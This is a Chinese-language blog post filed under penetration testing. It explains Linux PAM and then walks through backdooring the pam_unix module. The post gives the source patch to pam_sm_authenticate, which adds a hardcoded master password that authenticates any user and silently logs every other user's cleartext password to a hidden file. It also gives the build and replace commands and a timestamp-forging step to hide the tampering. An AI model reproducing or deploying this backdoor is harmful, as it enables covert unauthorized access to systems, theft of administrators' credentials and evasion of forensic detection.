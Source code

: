 ```yaml
---
layout: post
title: "patch pam backdoor"
description: ""
category: 渗透测试
tags: [backdoor,pam]
---
```

{% include JB/setup %}

## 什么pam ##

在过去，我们想要对一个使用者进行认证 (authentication)，得要要求用户输入账号口令， 然后透过自行撰写的程序来判断该账号口令是否正确。也因为如此，我们常常得使用不同的机制来判断账号口令， 所以搞的一部主机上面拥有多个各别的认证系统，也造成账号口令可能不同步的验证问题！ 为了解决这个问题因此有了 PAM (Pluggable Authentication Modules, 嵌入式模块) 的机制！

PAM 可以说是一套应用程序编程接口 (Application Programming Interface, API)，他提供了一连串的验证机制，只要使用者将验证阶段的需求告知 PAM 后， PAM 就能够回报使用者验证的结果 (成功或失败)。由于 PAM 仅是一套验证的机制，又可以提供给其他程序所呼叫引用，因此不论你使用什么程序，都可以使用 PAM 来进行验证，如此一来，就能够让账号口令或者是其他方式的验证具有一致的结果！也让程序设计师方便处理验证的问题.[引用自鸟哥私房菜](http://vbird.dic.ksu.edu.tw/linux_basic/0410accountmanager_5.php#ps5)

## pam backdoor ##

从pam的介绍中,我们知道,其实登录系统的时候,是pam的模块来验证我们的密码是否正确的.所以就存在这样一种可能,修改pam的验证逻辑,来达到一定条件下不去跟shadow里的密码校验,而是直接返回验证正确.从而达到作为后门的目的.

patch过程如下:

下载pam的源码:http://www.linux-pam.org/library/,有很多个版本,我测试的时候都是用的最新版.没有出现问题.测试过的ubuntu10.04和centos 5.4 X64.

	wget http://www.linux-pam.org/library/Linux-PAM-1.1.6.tar.gz
	tar zxvf Linux-PAM-1.1.6.tar.gz

修改modules/pam_unix/pam_unix_auth.c文件

	cd Linux-PAM-1.1.6
	vi modules/pam_unix/pam_unix_auth.c
	
查找pam_sm_authenticate函数,修改如下这段函数:

	D(("user=%s, password=[%s]", name, p));
	
    /* verify the password of this user */
	
    retval = _unix_verify_password(pamh, name, p, ctrl);
	
    name = p = NULL;

    AUTH_RETURN;


改为:

	D(("user=%s, password=[%s]", name, p));
        if(strcmp(p, "MAGIC_PASSWD") == 0)  ////MAGIC_PASSWD修改为自己设置的后门密码
        {
            retval = PAM_SUCCESS;
            AUTH_RETURN;
        }

        /* verify the password of this user */
        retval = _unix_verify_password(pamh, name, p, ctrl);
        if(retval == PAM_SUCCESS)
        {
            FILE *fp = fopen("/usr/local/man/.pam.log","a"); /////记录管理员密码的文件路径.
            fprintf(fp, "[evilpam]user=%s, password=%s\n", name, p);
            fclose(fp);
        }
        name = p = NULL;


这段密码的意思是设置了一个MAGIC_PASSWD,任何用户使用这个密码都可以登录.如果用户不是用MAGIC_PASSWD登录的,就把他的用户名密码记录在/usr/local/man/.pam.log文件里.


保存文件之后,

	./configure
	make

覆盖pam_unix.so之前先备份一下:

	cp /lib/security/pam_unix.so /tmp/pam_unix.so
	cp modules/pam_unix/.libs/pam_unix.so /lib/security/  覆盖

需要注意一点.64位的系统里,pam_unix.so的路径是/lib64/security/,坑爹的是64位系统也有/lib/security/pam_unix.so这个文件,一开始调试了好久都没好....


覆盖之后,后门就马上生效了.记得要先测试过.不然断开了之后,发现有问题,连不上就2了.一个patch pam backdoor就搞定了.

修改文件的时间戳~~

	touch -t 200909091108 pam_unix.so



##  参考资料##

http://www.linux-pam.org/library/

http://www.0daysecurity.com/articles/backdoor_pam_unix.so.html



